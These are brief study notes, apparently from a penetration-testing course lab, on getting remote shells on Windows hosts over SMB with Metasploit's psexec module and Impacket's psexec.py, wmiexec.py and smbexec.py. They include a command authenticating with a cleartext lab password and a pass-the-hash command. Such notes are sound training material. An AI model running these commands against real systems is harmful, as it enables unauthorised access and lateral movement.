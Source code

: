 use expoit/windows/smb/psexec
-fill out settings (show)
`$psexec.py marvel.local/fcastle:'Password1'@10.0.0.5`
`$psexec.py administrato@10.10.0.5 -hashes <HASH>`



! Review the video for details using Metasploit in different ways

psexec.py
wmiexec.py
smbexec.py